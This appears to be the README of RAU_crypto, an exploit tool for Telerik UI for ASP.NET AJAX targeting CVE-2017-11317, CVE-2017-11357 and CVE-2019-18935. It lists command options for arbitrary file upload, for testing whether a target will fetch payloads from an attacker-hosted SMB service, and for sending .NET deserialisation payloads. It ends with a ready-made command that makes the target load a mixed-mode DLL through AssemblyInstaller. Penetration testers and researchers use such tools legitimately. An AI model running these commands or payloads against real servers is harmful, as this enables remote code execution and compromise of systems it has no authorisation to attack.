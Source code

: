 # RAU_crypto
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

Combined exploit for Telerik UI for ASP.NET AJAX.
- File upload for CVE-2017-11317 and CVE-2017-11357 - will automatically upload the file
- .NET deserialisation for CVE-2019-18935

Now supports testing for the target's ability to pull in remote payloads from an attacker-hosted SMB service. Use Burp Collaborator and/or Responder to facilitate testing whether the necessary pre-requisites are in place.

For exploitation to work, you generally need a version with hard coded keys, or you need to know the key, for example if you can disclose the contents of web.config. The exploit also allows for straightforward decryption and encryption of the rauPostData used with Telerik.Web.UI.WebResource.axd?type=rau

## Requirements
- python >= 3.6 with pycryptodome (https://www.pycryptodome.org/en/latest/src/installation.html) - installed with `pip3 install pycryptodome` or `pip3 install pycryptodomex`

## Published on exploit-db (old version)
- https://www.exploit-db.com/exploits/43874/

## See also
My other Telerik UI exploit (for CVE-2017-9248) will probably also be of interest. It is available here:
- https://github.com/bao7uo/dp_crypto

## To do
- [x] Missing HMAC functionality for later versions.
- [x] Ability to specify custom key.
- [ ] Command line argument for execution of a mixed mode dll (in the meantime use the example .NET deserialisation payload provided below).
- [ ] Separate utility for testing mixed mode dll.
- [x] Provide source code/compilation instructions for mixed mode dll.
- [ ] Brute force versions.

Note - the last four items are complete but not released.

## Vulnerabilities
The file upload (CVE-2017-11317) vulnerability was discovered by others, I believe credits due to @straight_blast @pwntester @olekmirosh . Shortly after it was announced, I encountered the Telerik library during the course of my work, so I researched it and the vulnerability and wrote this exploit in July 2017. I also reported CVE-2017-11357 for the related insecure direct object reference.

https://www.telerik.com/support/kb/aspnet-ajax/upload-%28async%29/details/insecure-direct-object-reference

The .NET deserialisation (CVE-2019-18935) vulnerability was discovered by [@mwulftange]( https://github.com/mwulftange ).

https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization

## Usage
```
$ ./RAU_crypto.py -h

RAU_crypto by Paul Taylor / @bao7uo 
CVE-2017-11317, CVE-2019-18935 - Telerik RadAsyncUpload hardcoded keys / arbitrary file upload / .NET deserialisation

Usage:

Decrypt a ciphertext:               -d ciphertext
Decrypt rauPostData:                -D rauPostData
Encrypt a plaintext:                -e plaintext

Generate file upload rauPostData:   -E c:\\destination\\folder Version
Generate all file upload POST data: -p c:\\destination\\folder Version ../local/filename
Upload file:                        -P c:\\destination\\folder Version c:\\local\\filename url [proxy]

Generate custom payload POST data : -c partA partB
Send custom payload:                -C partA partB url [proxy]

Check remote SMB payload capability -r lhost url [proxy]

Example URL:               http://target/Telerik.Web.UI.WebResource.axd?type=rau
Example Version:           2016.2.504
Example optional proxy:    127.0.0.1:8080

N.B. Advanced settings e.g. custom keys or PBKDB algorithm can be found by searching source code for: ADVANCED_SETTINGS

$
```
## Example - decryption
![Decrypt screenshot](images/decrypt_screenshot.png)

## Example - arbitrary file uplaod
![Upload screenshot](images/upload_screenshot.png)

## Custom payload (.NET deserialisation)

For details on custom payloads for .NET deserialisation, there is a great article by [@mwulftange]( https://github.com/mwulftange ) who discovered this vulnerability on the Code White blog at the following link.

- https://codewhitesec.blogspot.com/2019/02/telerik-revisited.html

Update - There is an alternative exploit by Caleb Gross [@noperator]( https://github.com/noperator/CVE-2019-18935 ), which incorporates features from this exploit, with a great blog article explaining everything. Thanks also to Caleb for contributing to RAU_Crypto.
- https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui

Other relevant links.

- https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
- https://threatvector.cylance.com/en_us/home/implications-of-loading-net-assemblies.html
- https://thewover.github.io/Mixed-Assemblies/

Example .NET deserialisation payload:

```
$ ./RAU_crypto.py -C '{"Path":"file:///c:/users/public/documents/mixedmode64.dll"}' 'System.Configuration.Install.AssemblyInstaller, System.Configuration.Install, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' http://target/Telerik.Web.UI.WebResource.axd?type=rau
```

For mixed Mode DLL, see my other github repo:
- https://github.com/bao7uo/MixedUp

Special thanks to [@irsdl]( https://github.com/irsdl ) who inspired the custom payload feature.
